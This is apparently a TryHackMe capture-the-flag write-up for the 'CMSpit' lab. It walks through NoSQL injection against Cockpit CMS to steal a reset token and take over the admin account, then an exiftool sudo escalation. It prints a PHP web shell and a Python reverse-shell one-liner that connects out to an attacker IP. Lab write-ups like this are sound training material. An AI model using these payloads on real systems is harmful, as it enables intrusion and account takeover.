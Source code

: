 Machine: CMSpit

URL: [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

Difficulty: Medium 

Author: ![stuxnet](https://tryhackme.com/p/stuxnet)

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**

![sada](../assets/img/thm/cmspit/80http.png)

We known cms is Cockpit then look google for any exploit!

we got this article [https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

[http://10.10.59.7/auth/login](http://10.10.59.7/auth/login) intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)

![image](../assets/img/thm/cmspit/var_dump.png)

we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}

![image](../assets/img/thm/cmspit/reset_token.png)

As successfully we got token

**Step 3: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!

![image](../assets/img/thm/cmspit/newpasswd.png)

![image](../assets/img/thm/cmspit/newpasswdweb.png)

Done! next lets login

Dashboard
![image](../assets/img/thm/cmspit/dashboard.png)

## Time to Reverse shell

Go to finder and click create ..file

![image](../assets/img/thm/cmspit/finder.png)

create a php file for web shell _shellme.php_

![image](../assets/img/thm/cmspit/create.png)

file is created successfully 

![image](../assets/img/thm/cmspit/shellme.png)

then edit the file enter the php payload

```php
<?php
        echo shell_exec($_REQUEST['cmd']);
?>
```
![image](../assets/img/thm/cmspit/writeshell.png)

save it and open it

![image](../assets/img/thm/cmspit/id.png)

yeah! we did lets get reverse shell with python3 payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.xx.xxx",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](../assets/img/thm/cmspit/reversesheel.png)

## Enum for SSH Creds

in terminal type _mongo_

	>show dbs

	>use sudousersbak

	>show collections

in this we get _webflag_ and user creds..
	
	>db.user.find()

	{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ss******123" }
	{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
	> 

![image](../assets/img/thm/cmspit/pass.jpg)

Yeah! we got ssh crendentials stux:p4ssxxxxxxxxx123

## Privilege escalation

sudo -l

PrivEsc using Exiftool 

![image](../assets/img/thm/cmspit/sudo-l.jpg)

On ![Gtfobins](https://gtfobins.github.io/gtfobins/exiftool/#sudo)

	sudo exiftool -filename=/home/stux/root.txt /root/root.txt

Now check stux home dir!
 
After some googling found __Arbitrary Code Execution for CVE-2021-22204 in ExifTool__

Exploit: [https://github.com/se162xg/CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204)

Download the script then send to the Machine 

	bash Exiftool-PrivEsc.sh 'sudo su'

	sudo -u root /usr/local/bin/exiftool delicate.jp

![image](../assets/img/thm/cmspit/root.jpg)

Rooted!

